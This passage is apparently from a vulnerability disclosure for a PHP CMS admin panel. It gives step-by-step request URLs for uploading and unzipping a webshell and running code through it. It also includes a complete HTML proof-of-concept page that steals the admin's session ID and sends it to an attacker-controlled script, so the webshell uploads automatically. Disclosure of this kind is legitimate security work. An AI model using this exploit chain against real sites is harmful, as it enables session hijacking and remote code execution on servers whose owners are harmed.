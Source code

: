 Upload the .zip file containing webshell(setting.php) and get the return value: ```_cache/f234840c082641d2.zip```

![10.png](./img/10.png)

Then request the following url to extract the .zip file:```/admin.php?c=plugin&f=unzip&filename=_cache/f234840c082641d2.zip&_=1560232103659```

![11.png](./img/11.png)

Then visit the webshell: ```/plugins/ff1/setting.php?aaa=phpinfo()```

![12.png](./img/12.png)

Using the vulnerabilities [1] and [2] together, you can automate the upload of the webshell as long as the admin accesses the following page!

ppp.html (the src address of the script tag fills in the website to be attacked, and the url fills in the address of the attacker)
```
<html>
<script src="http://127.0.0.1:8003/admin.php?c=js&ext=admin.plugin.js&_noCache=0.1560224709">
</script>
<script>
var crossoriginget = new XMLHttpRequest();
var url = 'http://127.0.0.1:8001/finalpoc.php?cookie='+session_id+'&domain='+location.host;
crossoriginget.open('GET', url, true);
crossoriginget.send();
</script>
</html>
```
